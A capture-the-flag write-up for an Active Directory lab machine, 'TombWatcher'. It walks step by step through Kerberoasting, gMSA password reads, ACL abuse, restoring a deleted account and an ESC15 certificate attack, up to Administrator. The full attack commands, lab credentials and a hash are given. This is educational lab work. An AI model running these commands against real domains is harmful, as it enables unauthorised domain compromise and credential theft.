<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - An assumed-breach Active Directory box. Starting from `henry`, I chain ACLs through BloodHound: a targeted Kerberoast on `alfred`, abusing `AddSelf` + `ReadGMSAPassword` to read the `ansible_dev$` gMSA password, then a trail of `ForceChangePassword` and `WriteOwner` abuses to pivot `sam → john` and land a WinRM shell. For root, `john` controls an OU holding a deleted `cert_admin` account, so I restore it from the AD Recycle Bin, reset its password, and abuse an ESC15 (CVE-2024-49019) vulnerable certificate template to impersonate the Administrator.

---

## Recon

Starting with a full nmap scan. Quick note: this is an assumed-breach box, so it hands us the credentials of a compromised user, `henry / H3nry_987TGV!`.

```bash
nmap -sV -sC -p- -oA nmap/tombwatcher 10.129.66.71
```



There are a lot of ports open, and the key takeaway is that the target is a domain controller, `DC01.tombwatcher.htb`, so I added it to my `/etc/hosts`.

Since we already have valid credentials, I used `netexec` to see what `henry` can reach.



The creds are valid over SMB, so next I enumerated the shares.



With `--shares` we can see he only has read access to the default shares. I took a look anyway, but it was a dead end. HTTP gave me nothing either, so I moved on to BloodHound to map the domain.



BloodHound collected the data, so the next step is to ingest it into the GUI and look for a path.

---

## Henry → Alfred (targeted Kerberoasting)

With the data loaded, I saw that `henry` has **WriteSPN** over `alfred`.



Kerberoasting only works against accounts that have a Service Principal Name (SPN). `WriteSPN` lets us write an SPN onto an account that never had one, turning any user into a roastable target. Once the SPN exists, any domain user can request a service ticket (TGS) for it, and that ticket is encrypted with the target's NTLM hash, so we can crack it offline.

I used `bloodyAD` to assign a fake SPN to `alfred`:

```bash
bloodyAD -u 'henry' -p 'H3nry_987TGV!' -d 'tombwatcher.htb' --host '10.129.66.71' \
  set object 'CN=Alfred,CN=Users,DC=tombwatcher,DC=htb' servicePrincipalName -v 'fake/spnservice'
```



When I went to request the ticket, Kerberos complained my clock was out of sync with the DC, the classic `KRB_AP_ERR_SKEW`.



Fixed it by syncing to the DC's clock:

```bash
sudo timedatectl set-ntp false
sudo ntpdate 10.129.66.71
```

Then I roasted `alfred`:

```bash
GetUserSPNs.py -dc-ip 10.129.66.71 tombwatcher.htb/henry -request-user alfred -outputfile alfred_tgs
```



And got the ticket.



Cracked it with hashcat:



```
alfred : basketball
```

---

## Alfred → ansible_dev$ (ReadGMSAPassword)

Nothing interesting as `alfred` directly, so back to BloodHound. `alfred` has **AddSelf** over the `INFRASTRUCTURE` group, and that group has **ReadGMSAPassword** over the `ANSIBLE_DEV$` account.





A gMSA (group Managed Service Account) is an account whose password Active Directory generates and rotates automatically every 30 days. Principals granted `ReadGMSAPassword` can read the current managed password blob (`msDS-ManagedPassword`) straight from LDAP, no cracking needed. So if we can get into the INFRASTRUCTURE group, we can read the `ansible_dev$` password.

First, add `alfred` to the group (abusing `AddSelf`):

```bash
bloodyAD --host "10.129.66.71" -d "tombwatcher.htb" -u "alfred" -p "basketball" \
  add groupMember "INFRASTRUCTURE" "alfred"
```



Now read the gMSA password:

```bash
bloodyAD --host "10.129.66.71" -d "tombwatcher" -u "alfred" -p "basketball" \
  get object ANSIBLE_DEV$ --attr msDS-ManagedPassword
```



This gives the NTLM hash `3eca34dd13a85db79c03178b7b149621` for `ansible_dev$`. Cracking it is pointless (the password is ~240 bytes of random binary), so this is a pass-the-hash situation.



---

## ansible_dev$ → sam (ForceChangePassword)

Pass-the-hash worked. Back to BloodHound: `ansible_dev$` has **ForceChangePassword** over `sam`. This right lets us set a new password for the target without knowing the old one.



```bash
bloodyAD --host "10.129.66.71" -d "tombwatcher.htb" -u 'ansible_dev$' -p ':3eca34dd13a85db79c03178b7b149621' \
  set password "sam" "password123"
```





Credentials confirmed valid.



---

## sam → john (WriteOwner → GenericAll)

`sam` has **WriteOwner** over `john`. Owning an object means we can rewrite its DACL, so the chain is: make ourselves the owner, grant ourselves `GenericAll`, then use that to reset the password. Three steps, each unlocking the next.

Make `sam` the owner of `john`:

```bash
bloodyAD --host "10.129.66.71" -d "tombwatcher" -u 'sam' -p "password123" set owner 'john' 'sam'
```



Grant `sam` GenericAll over `john`:

```bash
bloodyAD --host "10.129.66.71" -d "tombwatcher" -u 'sam' -p "password123" add genericAll 'john' 'sam'
```



Reset `john`'s password:

```bash
bloodyAD --host "10.129.66.71" -d "tombwatcher.htb" -u 'sam' -p "password123" set password 'john' 'password123'
```





`john` is in the **Remote Management Users** group, so he can WinRM in.



---

## Foothold

```bash
evil-winrm -u john -p password123 -i 10.129.66.71
```



And `user.txt` is on the Desktop.



---

## Privilege Escalation - AD Recycle Bin → ESC15

This is the part that ties the whole box together, so let me walk it slowly. The goal is to abuse ADCS, but the account that can actually exploit the vulnerable template doesn't exist anymore, it's been deleted. So the real chain is: restore a deleted account, take control of it, then use it to attack ADCS.

Running `certipy find` as `john` already hints that there's a certificate template worth looking at.



Then I checked whether the AD Recycle Bin is enabled, which decides whether deleted objects are recoverable:

```powershell
Get-ADOptionalFeature 'Recycle Bin Feature'
```



When the AD Recycle Bin is enabled, deleted objects aren't purged, they're kept as tombstoned objects (fitting, given the box name) with all their attributes intact, and can be restored. If an interesting principal was deleted, and we have write rights over where it lived, we can bring it back and take it over.

Enumerating deleted objects, a user called `cert_admin` shows up, and it appears three times (it was created and deleted a few times). The one we want is the most recent, with RID **1111**.



```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and Name -like "*cert_admin*"' -IncludeDeletedObjects -Properties *
```

As `john` we have `GenericAll` over the ADCS OU, and that OU is the `lastKnownParent` of the deleted `cert_admin`. That control over the container is what lets us resurrect the object back into it. Since multiple deleted copies exist, we grab the `ObjectGUID` of the specific instance with RID 1111 so we restore the right one.

```powershell
Restore-ADObject -Identity <ObjectGUID-of-RID-1111>
```



With `GenericAll` over the OU (and now the restored account inside it), we can set its password:

```powershell
Set-ADAccountPassword cert_admin -NewPassword (ConvertTo-SecureString 'password123' -AsPlainText -Force) -Reset
```

Confirming with netexec:



Now with a working `cert_admin`, I enumerated templates with certipy:

```bash
certipy find -target dc01.tombwatcher.htb -u cert_admin -p 'password123' -vulnerable -stdout
```

The relevant output:

```
Certificate Templates
  0
    Template Name                       : WebServer
    Enabled                             : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Schema Version                      : 1
    Permissions
      Enrollment Permissions
        Enrollment Rights               : ... TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched.
                                          See CVE-2024-49019 or the wiki for more details.
```

So the `WebServer` template is vulnerable to ESC15, and `cert_admin` has enrollment rights on it.

ESC15 (CVE-2024-49019, also known as "EKUwu") abuses schema version 1 templates that have Enrollee Supplies Subject enabled. Two facts combine: first, because the enrollee supplies the subject, we can request the certificate for an arbitrary identity like the Administrator's UPN; second, V1 templates don't lock down application policies, so even though the template's EKU is only `Server Authentication`, we can inject an extra policy like `Certificate Request Agent` or `Client Authentication` that the template was never meant to grant.

The `WebServer` template's EKU is `Server Authentication`, which can't be used to log on directly. So instead of a one-shot, I used the enrollment-agent variant: request a cert with the `Certificate Request Agent` application policy, then use that agent cert to enroll a certificate on behalf of the Administrator on a template meant for user logon. The final cert can authenticate, and it's issued as the Administrator.

**Step 1** - request an enrollment-agent cert from the vulnerable `WebServer` template, injecting the Certificate Request Agent application policy:

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -p 'password123' \
  -dc-ip 10.129.66.71 -target dc01.tombwatcher.htb \
  -ca 'tombwatcher-CA-1' -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```



**Step 2** - use that PFX as an enrollment agent to request a logon-capable certificate on behalf of the Administrator (against a user template):

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -p 'password123' \
  -dc-ip 10.129.66.71 -target dc01.tombwatcher.htb \
  -ca 'tombwatcher-CA-1' -template 'User' \
  -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\administrator'
```



**Step 3** - authenticate with the Administrator certificate to pull their NT hash:

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.66.71
```



**Step 4** - pass-the-hash into a shell as Administrator:

```bash
evil-winrm -i 10.129.66.71 -u administrator -H <NT_hash>
```



And grab the root flag.



---

## Conclusion

TombWatcher is a proper ACL-chaining box, and the fun is in how many distinct AD primitives it strings together: targeted Kerberoasting, a gMSA read, ForceChangePassword, and a WriteOwner → GenericAll takeover, all just to get a foothold. None of them are hard on their own, but reading BloodHound correctly at each step is the whole game.

The root was my favourite part. It's easy to run `certipy find`, see ESC15, and get stuck because the principal with enrollment rights is gone. The twist, realising `cert_admin` was deleted and that our control over the OU lets us pull it back out of the Recycle Bin, is a genuinely clever bit of design, and the box name was telling us the whole time.

One takeaway: deleted doesn't mean gone. A tombstoned account with the right rights around it is still a live attack path, and ESC15 on an unpatched CA turns "I can enrol one weird template" into full domain compromise.

---

## Kill chain summary

| Phase | Vector | Result |
| -------- | -------------------------------------------------------- | -------------------------------- |
| Recon | Assumed breach + BloodHound | `henry` creds, domain map |
| ACL chain | WriteSPN → targeted Kerberoast | `alfred : basketball` |
| ACL chain | AddSelf + ReadGMSAPassword | `ansible_dev$` NT hash |
| ACL chain | ForceChangePassword | `sam : password123` |
| ACL chain | WriteOwner → GenericAll | `john : password123` |
| Foothold | WinRM as `john` | `john` - user.txt |
| Root | AD Recycle Bin restore + ESC15 (CVE-2024-49019) | `Administrator` - root.txt |

## References

- Certipy wiki - ESC15 (CVE-2024-49019) - https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation
- bloodyAD - https://github.com/CravateRouge/bloodyAD
- AD Recycle Bin (Restore-ADObject) - https://learn.microsoft.com/en-us/powershell/module/activedirectory/restore-adobject